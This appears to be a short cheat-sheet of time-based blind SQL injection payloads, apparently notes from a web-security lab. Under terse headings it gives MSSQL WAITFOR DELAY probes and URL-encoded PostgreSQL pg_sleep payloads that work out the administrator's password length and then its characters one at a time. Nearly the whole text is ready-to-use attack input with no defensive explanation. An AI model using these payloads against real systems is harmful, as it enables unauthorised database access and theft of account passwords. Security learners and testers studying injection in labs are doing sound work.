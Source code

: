 

```sql
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```


Testing one by one character
```sql
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```


postgresql
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+from+users--
```
brut force ony by one char:
```sql
DmPM58WZKAHfc8BB'%3BSELECT+CASE+WHEN+(username='administrator'+and+substring(password,5,1)='a')+THEN+pg_sleep(2)+ELSE+pg_sleep(0)+END+from+users--
```

